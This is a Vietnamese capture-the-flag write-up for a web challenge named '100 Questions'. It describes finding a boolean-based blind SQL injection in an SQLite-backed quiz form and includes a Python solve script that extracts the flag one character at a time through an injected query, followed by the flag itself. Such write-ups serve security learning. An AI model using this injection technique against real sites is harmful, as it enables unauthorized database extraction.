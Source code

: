 # 100 Questions

![image-20230521215454477](./assets/image-20230521215454477.png)

Ban đầu bài này không có source nên mình ngồi fuzz để solve bài này

Giao diện trang web là một form trả lời câu hỏi, đúng thì trả về `Correct!` còn sai thì trả về `No input / wrong!!!! Try harder` 

![image-20230521222638255](./assets/image-20230521222638255.png)

Câu hỏi và câu trả lời của mình được truyền thông qua các param `/?qn_id=100&ans=2`

![image-20230521222800899](./assets/image-20230521222800899.png)

Theo như description thì trong 100 câu hỏi này có một câu quan trọng hơn các câu khác, có vẻ như câu hỏi này có liên quan đến flag nên mình thử fuzz xem các câu hỏi này là gì

Mình có thấy câu 42 hỏi là `Q42: Flag?`

![image-20230521223022571](./assets/image-20230521223022571.png)

Đến đây thì mình dự đoán ở đây các câu hỏi và câu trả lời đều được lấy ra từ database nên mình tiếp tục fuzz phần đáp án của câu 42 thì thấy mình đã đúng D:

![image-20230521223220391](./assets/image-20230521223220391.png)

Tiếp tục fuzz thì mình xác định được database ở đây là SQLite, dạng SQL này là boolean based, fuzz tiếp ra được bảng `QNA` và 3 cột `ID, Questions, Answers`

script lấy flag nằm ở dòng 42 cột Answer

[solve.py](./solve.py)

```python
import requests
import string
flag=""
for i in range(20):
    for char in string.printable:
        try:
            burp0_url = f"http://34.126.139.50:10512/?qn_id=42&ans=1%27%20or%20(SELECT%20hex(substr(Answer,{i},1))%20FROM%20QNA+limit+1+offset+41)%20=%20hex(%27{char}%27)%20--%20-"
            burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            req=requests.get(burp0_url, headers=burp0_headers)
            if "Correct!" in req.text:
                flag+=char
                print(flag)
                break
        except:
            pass
```

`Flag: grey{1_c4N7_533}`